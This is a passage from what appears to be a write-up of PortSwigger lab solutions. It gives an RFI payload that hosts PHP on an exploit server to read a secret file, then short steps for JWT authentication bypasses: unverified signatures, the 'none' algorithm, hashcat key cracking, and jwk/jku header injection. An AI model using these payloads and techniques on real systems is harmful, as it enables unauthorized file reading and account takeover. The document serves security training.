 ![image](https://user-images.githubusercontent.com/58632878/229368462-7a672f73-cea6-4c47-a251-1eb3e724f1b4.png)  
To exploit this vulnerability, paste php payload in body section of your exploit server and name it shell.php:  
```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
To bypass filters and provoke RFI, use the next payload:
```
https://exploit-server.com/shell.php#kek.jpg
```

# JWT
## Approach  
For this section use the JWT Editor burp extension, which helps to play with JWT on the go. I, personally, prefer JSON Web Tokens extension, due to simplicity and quick work. Also both these extensions will mark your requests with some color, identifying that you have JWT.  
![image](https://user-images.githubusercontent.com/58632878/224721563-d86eb6b1-da3b-4231-be0a-47d7fdd07901.png)


## Labs
### 1. JWT authentication bypass via unverified signature  
>Simply change "sub" to administrator


### 2. JWT authentication bypass via flawed signature verification  
>None algorithm (set "alg": "none" and delete signature part)


### 3. JWT authentication bypass via weak signing key  
  
**ATTENTION:** Weak key is easily detected by Burp Suite Passive Scanner  
>Crack signing key with hashcat: ```hashcat -m 16500 -a 0 <full_jwt> /usr/share/wordlists/rockyou.txt```


### 4. JWT authentication bypass via jwk header injection  
>4.1 Go to JWT Editor Keys - New RSA Key - Generate  
>4.2 Get Request with JWT token - Repeater - JSON Web Token tab - Attack (at the bottom) - Embedded JWK - Select your previously generated key - OK  


### 5. JWT authentication bypass via jku header injection  
>5.1 JWT Editor Keys - New RSA Key - Generate - right-click on key - Copy Public Key as JWK  
>5.2 Go to your exploit server and paste the next payload in Body:  
```
{
    "keys": [

    ]
}
```
>5.3 In "keys" section paste your previously copied JWK:  
```
{
    "keys": [
        {
            "kty": "RSA",
            "e": "AQAB",
            "kid": "893d8f0b-061f-42c2-a4aa-5056e12b8ae7",
            "n": "yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9mk6GPM9gNN4Y_qTVX67WhsN3JvaFYw"
        }
```